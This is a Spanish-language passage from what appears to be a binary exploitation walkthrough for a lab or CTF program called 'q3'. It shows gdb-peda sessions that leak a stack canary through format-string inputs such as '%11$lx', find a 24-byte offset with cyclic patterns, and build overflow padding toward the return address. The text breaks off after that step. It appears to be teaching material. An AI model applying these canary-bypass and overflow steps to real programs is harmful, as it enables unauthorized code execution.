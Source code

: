 ### Salida 19

```gdb
gdb-peda$ b * 0x55555555481e
Breakpoint 1 at 0x55555555481e
gdb-peda$ r
Starting program: /root/q3 
Enter name : %19$lx
Hello
e68e481756df87b0
Enter sentence : A

Breakpoint 1, 0x000055555555481e in main ()
gdb-peda$ p $rcx
$1 = 0xe83180cc88975d00
```

Como veis, con la salida 11 leakeamos el valor del canario. 

### Bypass Canary
Ahora vamos a ver el relleno hasta llegar al canario para poder escribir el valor correcto.
```gdb
gdb-peda$ pattern_create 64
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH'
gdb-peda$ r                                                                                           
Starting program: /root/q3                                                                            
Enter name : A                                                                                        
Hello                                                                                                 
A                                                                                                     
Enter sentence : AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH
gdb-peda$ p $rcx
$4 = 0x413b414144414128
gdb-peda$ pattern offset 0x413b414144414128
4700422384665051432 found at offset: 24
```
El offset es **24 bytes.**

### Calcular relleno
Ahora solo queda calcular el relleno entre el canario y la direccion de retorno. Para ello basta con abrir gdb, establecer un breakpoint en la misma instruccion que antes (**0x000055555555481e**), introduccir `%11$lx` y 
`"A"*24 + "B"*8 + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A"` y una vez en el breakpoint modificar el valor del **RCX** con el del canario.

```gdb
gdb-peda$ r                                                                                           
Starting program: /root/q3                                                                            
Enter name : %11$lx                                                                                   
Hello                                                                                                 
6cf965dc5ce99a00                                                                                      
Enter sentence : AAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A
Breakpoint 1, 0x000055555555481e in main ()
gdb-peda$ set $rcx=0x6cf965dc5ce99a00
gdb-peda$ c
```